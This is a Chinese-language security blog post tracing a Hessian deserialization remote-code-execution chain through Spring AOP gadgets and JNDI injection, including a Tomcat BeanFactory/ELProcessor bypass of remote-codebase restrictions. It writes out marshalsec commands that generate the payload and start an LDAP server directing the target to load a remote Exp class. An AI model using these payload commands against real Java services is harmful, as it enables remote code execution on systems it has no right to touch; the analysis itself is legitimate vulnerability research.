 ```yaml
---
layout:     post
title:      "Hessian反序列化——Spring AOP链 && JNDI绕过的调试分析"
subtitle:   ""
date:       2020-09-29 19:40:00
author:     "kuron3k0"
header-img: "img/home-bg.jpg"
tags:
    - Hessian
    - 漏洞分析
    - JNDI
---
```


看完[Orange大佬的文章](https://devco.re/blog/2020/09/12/how-I-hacked-Facebook-again-unauthenticated-RCE-on-MobileIron-MDM/)，发现知识盲区，赶紧学习一下

## Hessian

一个基于http的RPC框架，轻量级的RMI，[这里](https://www.cnblogs.com/wynjauu/articles/9010719.html)是Hessian的一些简单的配置和使用

## 环境搭建

先简单搭个环境
![](/img/in-post/Hessian-RCE/main.png)

这里需要引入Hessian的包
```xml
<dependency>
    <groupId>com.caucho</groupId>
    <artifactId>hessian</artifactId>
    <version>4.0.38</version>
</dependency>
```

用marshalsec生成payload
```cmd
D:\tools>java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian SpringPartiallyComparableAdvisorHolder ldap://127.0.0.1:1388/Exp > expxp2
```

同样这个payload也需要有依赖包
```xml
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.0.0.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-context</artifactId>
    <version>4.1.3.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjweaver</artifactId>
    <version>1.6.10</version>
</dependency>
```

ldap服务器开起来
```cmd
D:\tools>java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServe
r http://127.0.0.1:9998/#Exp 1388
```

Exp类的代码如下
![](/img/in-post/Hessian-RCE/expclass.png)


## SpringPartiallyComparableAdvisorHolder利用链分析

直接把刚才生成的payload放到HessianInput.readObject，触发断点。


读取第一个字节判断为Map类型，调用readMap
![](/img/in-post/Hessian-RCE/hessianinput.png)

初始化Map的反序列化类
![](/img/in-post/Hessian-RCE/serializerfactory.png)

读取反序列化的数据并put进HashMap中
![](/img/in-post/Hessian-RCE/mapdeserializer.png)

put的时候，当key的hash一样，但是是不同对象的时候，触发了key对象的equal函数，此时key和k都是HotSwappableTargetSource
![](/img/in-post/Hessian-RCE/hotswappabletargetsource.png)

触发HotSwappableTargetSource对象中target（XString）的equals函数
![](/img/in-post/Hessian-RCE/equals1.png)

触发AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder的toString
![](/img/in-post/Hessian-RCE/equals2.png)

进入AspectJPointcutAdvisor的getOrder函数
![](/img/in-post/Hessian-RCE/advisor.png)

AbstractAspectAdvice->getOrder
![](/img/in-post/Hessian-RCE/advice.png)

BeanFactoryAspectInstanceFactory->getOrder
![](/img/in-post/Hessian-RCE/aspectfactory.png)

SimpleJndiBeanFactory->getType
![](/img/in-post/Hessian-RCE/jndifactory.png)

SimpleJndiBeanFactory->doGetType
![](/img/in-post/Hessian-RCE/dogettype.png)

对传入的name参数，会调用isSingleton函数判断是否存在于shareableResources中，如果有的话进入SimpleJndiBeanFactory->doGetSingleton
![](/img/in-post/Hessian-RCE/dogetsingleton.png)

第一次进入的时候singletonObjects是不会有对应的jndi对象的，所以进入else分支，触发lookup
![](/img/in-post/Hessian-RCE/lookup.png)

到这里利用链其实可以算结束了，后面就是lookup的事情了。

## JNDI注入

之前也没了解过lookup之后发生了什么，刚好现在跟一下。


首先进入InitialContext.lookup，根据name获取协议（ldap、rmi等），生成对应的上下文
![](/img/in-post/Hessian-RCE/initcontext.png)
![](/img/in-post/Hessian-RCE/getschema.png)

然后这里我用的是ldap，所以进入了LdapURLContext的lookup
![](/img/in-post/Hessian-RCE/ldapctx.png)

这里根据name参数构建了ldapCtx，然后进入ldapCtx的lookup
![](/img/in-post/Hessian-RCE/generic.png)

继续进入ldapCtx的p_lookup函数
![](/img/in-post/Hessian-RCE/plookup.png)

ldapCtx->c_lookup
![](/img/in-post/Hessian-RCE/clookup.png)

在c_lookup中进入DirectoryManager的getObjectInstance，这时候已经从我们的ldap服务器取到了classFactoryLocation：http://127.0.0.1:9998
![](/img/in-post/Hessian-RCE/getobjinstance.png)

最后调用getObjectFactoryFromReference，实例化对象，从而触发Exp的恶意代码
![](/img/in-post/Hessian-RCE/newinstance.png)

当然这里ldap能用是因为开头设置了trustURLCodebase
![](/img/in-post/Hessian-RCE/trust.png)

我的jdk是1.8.0_265，正常在这里是会被VersionHelper12拦住的，无法load远程class
![](/img/in-post/Hessian-RCE/helper.png)

所以只能用本地的class，但是要利用的话，上面这个触发点就不太行了，因为几乎没有实例化时可以执行命令的类。但是留意到在DirectoryManager->getObjectFactoryFromReference里面实例化之后，还会调用factory的getObjectInstance，那如果有那么个类有getObjectInstance方法且有敏感操作的话，就可以利用了
![](/img/in-post/Hessian-RCE/exec2.png)

这里注意factory会被转成ObjectFactory，所以那个类需要继承ObjectFactory才行
![](/img/in-post/Hessian-RCE/cast.png)


有一个公开的可利用类是org.apache.naming.factory.BeanFactory，属于Tomcat的库，可以通过forceString方法强制指定setter函数并进行调用。

但是在准备调试的时候发现网上搜的代码都是利用rmi，没有ldap的。就感到很奇怪，于是做了一点尝试。


根据Obj类decodeReference的代码，forceString这些属性可以通过在Ldapserver中设置javaReferenceAddress来实现
![](/img/in-post/Hessian-RCE/stringref.png)

于是改写了下marshalsec的LDAPRefServer
![](/img/in-post/Hessian-RCE/ldapserver.png)

然后。。。就没有然后了。。因为obj是Reference，但需要obj是ResourceRef的实例才能进入对应分支，右边可以看到继承关系，如果是Reference继承ResourceRef的话就没问题
![](/img/in-post/Hessian-RCE/ref.png)

无意中google翻到了大佬的[代码](https://github.com/veracode-research/rogue-jndi)，原来javaSerializedData可以这样用的
![](/img/in-post/Hessian-RCE/serialdata.png)

直接运行，果然可以orz
![](/img/in-post/Hessian-RCE/calc.png)

顺便也跟一下，当javaSerializedData存在时，进入反序列化
![](/img/in-post/Hessian-RCE/deserializeobject.png)

readObject，所以return的是ResourceRef对象，在BeanFactory的getObjectInstance函数中就可以进入对应分支
![](/img/in-post/Hessian-RCE/readobject.png)

获取我们输入的forceString属性（`x=eval`），并从beanClass（`javax.el.ELProcessor`）中获取参数为`String.class`的`eval`方法，放进forced中
![](/img/in-post/Hessian-RCE/forcestring.png)

从ResourceRef中获取我们的payload，再根据propName在刚才的forced中拿出eval方法执行，完成攻击
![](/img/in-post/Hessian-RCE/invoke.png)
![](/img/in-post/Hessian-RCE/calc2.png)

大佬的payload中还有其他的gadget，有兴趣的师傅可以调一下。


## Reference
- [https://devco.re/blog/2020/09/12/how-I-hacked-Facebook-again-unauthenticated-RCE-on-MobileIron-MDM/](https://devco.re/blog/2020/09/12/how-I-hacked-Facebook-again-unauthenticated-RCE-on-MobileIron-MDM/)
- [https://paper.seebug.org/1131/](https://paper.seebug.org/1131/)
- [https://github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi)
